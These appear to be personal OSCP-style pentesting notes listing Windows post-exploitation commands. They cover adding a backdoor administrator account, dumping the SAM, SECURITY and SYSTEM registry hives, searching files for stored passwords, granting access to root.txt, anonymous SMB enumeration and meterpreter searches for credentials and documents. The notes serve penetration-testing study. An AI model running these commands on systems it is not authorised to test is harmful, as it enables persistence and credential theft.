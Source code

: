 ```yaml
---
tags: 🔻 🔻/OS/windows
aliases: Hacking Notes
---
```


# Possibly useful windows stuff

net user hacker my\_password /add  
net localgroup Administrator hacker /add  
  
net user user user123 /add  
net localgroup administrators pentesting /add  
  
python windows-exploit-suggester.py --database test.xls --systeminfo optimum-system.txt

# Basic Windows commands

hostname && type proof.txt && ipconfig /all  
{specifically for OSCP proofs}
    
  
C:\\> reg.exe save hklm\\sam c:\\windows\\temp\\sam.save  
C:\\> reg.exe save hklm\\security c:\\windows\\temp\\security.save  
C:\\> reg.exe save hklm\\system c:\\windows\\temp\\system.save  
  
\# Basics  
systeminfo  
hostname  
  
\# Who am I?  
whoami  
echo %username%  
  
\# What users/localgroups are on the machine?  
net users  
net localgroups  
  
\# More info about a specific user. Check if user has privileges.  
net user user1  
  
\# View Domain Groups  
net group /domain  
  
\# View Members of Domain Group  
net group /domain *Group Name*  
  
\# Firewall  
netsh firewall show state  
netsh firewall show config  
  
\# Network  
ipconfig /all  
route print  
arp -A  
  
\# How well patched is the system?  
wmic qfe get Caption,Description,HotFixID,InstalledOn  
  


### Search for them

  
  
findstr /si password \*.txt  
findstr /si password \*.xml  
findstr /si password \*.ini  
  
Find all those strings in config files.  
dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\*  
  
\# Find all passwords in all files.  
findstr /spin "password" \*.\*  
findstr /spin "password" \*.\*  
  
icacls root.txt /grant alfred:F

# samba version

Samba version -  
  
ngrep -i -d tap0 's.?a.?m.?b.?a.\*\[\[:digit:\]\]'  
smbclient -L ip -U "" -N  
ngrep -i -d tap0 's.?a.?m.?b.?a.\*\[\[:digit:\]\]' && smbclient -L ip -U "" -N  
  
  
[https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon\_enum/smbver.sh](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh)

# meterpreter search

#metasploit 
meterpreter  
search -f \*.txt  
search -f \*.zip  
search -f \*.doc  
search -f \*.xls  
search -f config\*  
search -f \*.rar  
search -f \*.docx  
search -f \*.sql  
  
.ssh:  
.bash\_history